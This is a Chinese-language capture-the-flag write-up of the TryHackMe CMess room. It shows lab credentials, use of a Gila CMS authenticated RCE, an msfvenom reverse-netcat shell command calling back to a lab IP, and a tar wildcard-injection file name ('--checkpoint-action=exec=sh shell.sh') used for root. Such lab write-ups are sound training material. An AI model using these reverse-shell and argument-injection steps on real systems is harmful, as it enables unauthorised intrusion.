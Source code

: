 ```yaml
---
title: '[thm] CMess'
date: 2024-12-27 21:50 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image.png>)
> port scan

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-1.png>)
通过子域名爆破发现一个子域名，得到用户邮箱和密码。**andre@cmess.thm:KPFTN_f2yxe%**

## user1

在主域下发现cms框架为gila cms。搜索发现有一个nday，Exploit Title: Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)
直接获得shell。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-2.png>)

## user2

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-3.png>)
> cat /var/www/html/config.php

这里有一个数据库的账户，不知道为什么，这里我连不上去，直接看wp了，发现我的做法没有问题，但是这里是一个兔子洞。
正确的做法是在/opt下找到一个.password.bak文件
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-4.png>)
查看passwd发现这里的用户名也不对，使用正确的用户名登录。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-5.png>)
得到user2 **andre:UQfsdCB7aAP6**

## root

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-6.png>)
这里是一个通配符注入。
这里直接用bash反弹shell拿不到，使用msfvenom生成一个就可以成功弹回来了，生成语句如下：
`sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.11.120.122 lport=1234 R > shell.sh`

再一个就是生成文件夹的时候，使用mkdir不好生成带有`--`的文件，看了wp，发现可以使用echo方法，语句如下：
`echo "" > "--checkpoint-action=exec=sh shell.sh"`

## conclution

- 基本信息收集要收集全面，在初期，广泛的信息收集大于漏洞的深究。
- 小细节。
